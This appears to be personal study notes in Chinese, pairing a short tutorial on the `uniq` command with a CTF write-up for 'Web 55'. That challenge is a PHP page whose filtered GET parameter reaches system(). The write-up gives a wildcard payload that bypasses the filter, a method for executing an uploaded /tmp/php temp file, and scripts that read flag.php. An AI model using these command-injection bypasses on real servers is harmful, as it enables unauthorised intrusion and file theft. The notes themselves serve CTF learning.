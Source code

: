 #### 5. 只显示不重复的行（`-u` 选项）：
```bash
sort file.txt | uniq -u
```
输出：
```
cherry
```
只输出文件中没有重复的行。

### 总结：
- **`uniq`** 是用于删除相邻的重复行的命令。如果文件中有重复行且它们不相邻，通常需要先使用 `sort` 进行排序。
- 可以结合多种选项来统计行数、忽略大小写、输出重复或唯一的行等。
![[Pasted image 20240915203404.png]]
# Web 55
```PHP
<?php  
  
/*  
# -*- coding: utf-8 -*-  
# @Author: Lazzaro  
# @Date:   2020-09-05 20:49:30  
# @Last Modified by:   h1xa  
# @Last Modified time: 2020-09-07 20:03:51  
# @email: h1xa@ctfer.com  
# @link: https://ctfer.com  
  
*/  
  
// 你们在炫技吗？  
if(isset($_GET['c'])){
	$c=$_GET['c'];  
    if(!preg_match("/\;|[a-z]|\`|\%|\x09|\x26|\>|\</i", $c)){
	    system($c);  
    }  
}else{
	highlight_file(__FILE__);  
}
```
`URL/?c=/???/????64%20????.???`
![[Pasted image 20240915203916.png]]
![[Pasted image 20240915203903.png]]
## 第二种方法
https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html
从这篇文章中，学会
1. 利用PHP机制，将一个自定义的`php`文件上传为`/tmp/php{XXXXXX}`文件；
2. 使用`. /tmp/php{XXXXXX}`执行我们的文件。
用Burp Suite抓包的方法来做。
我们的`php`文件先试一下`ls`:
```Shell
#!/bin/bash

ls
```
再试一下`cat`：
```Shell
#!/bin/bash

cat /var/www/html/flag.php
```
